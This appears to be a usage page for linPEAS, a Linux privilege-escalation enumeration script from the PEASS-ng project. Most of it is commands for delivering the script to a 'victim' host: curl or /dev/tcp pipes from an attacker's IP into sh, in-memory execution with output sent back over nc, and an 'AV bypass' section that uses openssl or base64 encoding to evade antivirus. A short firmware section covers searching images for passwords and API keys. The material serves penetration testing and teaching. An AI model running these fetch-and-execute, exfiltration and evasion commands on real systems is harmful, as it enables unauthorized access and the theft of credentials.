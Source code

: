 # Linpeas

{% embed url="https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS" %}

```
# From public github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

```
# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```

```
# Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors
```

```
# Use a linpeas binary
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

### AV bypass



```
#open-ssl encryption
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```

### Firmware Analysis



If you have a **firmware** and you want to **analyze it with linpeas** to **search for passwords or bad configured permissions** you have 2 main options.

* If you **can emulate** the firmware, just run linpeas inside of it:

```
cp /path/to/linpeas.sh /mnt/linpeas.sh
chroot /mnt #Supposing you have mounted the firmware FS in /mnt
bash /linpeas.sh -o software_information,interesting_files,api_keys_regex
```

* If you **cannot emulate** the firmware, use the `-f </path/to/folder` param:

```
# Point to the folder containing the files you want to analyze
bash /path/to/linpeas.sh -f /path/to/folder
```
